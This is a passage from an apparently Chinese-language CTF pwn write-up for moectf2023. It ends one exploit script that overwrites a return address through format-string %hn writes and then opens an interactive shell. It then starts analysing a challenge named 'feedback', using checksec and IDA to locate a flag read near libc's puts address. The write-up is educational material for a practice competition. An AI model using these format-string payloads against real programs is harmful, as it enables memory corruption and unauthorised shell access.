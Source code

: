 ```python
sleep(2)
ret_addr = stack_addr - 0x2c
pad = b'%' + str(ret_addr & 0xffff).encode() + b'c%6$hn' # 按双字节写入
sh.sendline(pad)
sleep(2)

# step 3
sh.sendline(b'3')
sleep(2)
pad = b'%' + str(0x9330).encode() + b'c%14$hn'
sh.sendline(pad)
sh.interactive()
```



## feedback

checksec查看，发现所有的保护都打开了。

![image-20230930230939269](./moectf2023-pwn-wp.assets/image-20230930230939269.png)



使用IDA打开，发现程序先调用了read_flag，将flag读到了&puts+186972的地方，因为&puts是char**类型，所以实际上应该是&puts+186972\*8（&puts+0x16d2e0）。（此处的puts地址是libc上的地址）

![image-20230930230214174](./moectf2023-pwn-wp.assets/image-20230930230214174.png)

![image-20230930230503367](./moectf2023-pwn-wp.assets/image-20230930230503367.png)
